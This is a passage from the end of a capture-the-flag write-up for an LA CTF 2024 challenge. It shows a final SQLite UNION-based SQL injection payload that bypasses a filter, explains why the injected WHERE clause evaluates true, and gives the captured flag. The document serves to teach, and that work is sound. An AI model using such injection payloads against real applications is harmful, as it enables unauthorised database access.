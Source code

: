 Ah yes... We're missing the comment bypass trick!

**So, our final payload is this:**
```sql
' UNION SELECT 1,2,3,4,5,flag FROM flag WHERE ''='
```

The `WHERE` clause will return `true`, because an empty string is always equals to an empty string.

![](https://github.com/siunam321/CTF-Writeups/blob/main/LA-CTF-2024/images/Pasted%20image%2020240219113413.png)

- **Flag: `lactf{us3_s4n1t1z3d_1npu7!!!}`**

> Trivia: My teammate solved this challenge with Blind-based SQL injection with conditional responses instead of Union-based SQL injection, pretty cool.

## Conclusion

What we've learned:

1. SQLite Union-based SQL injection with filter bypass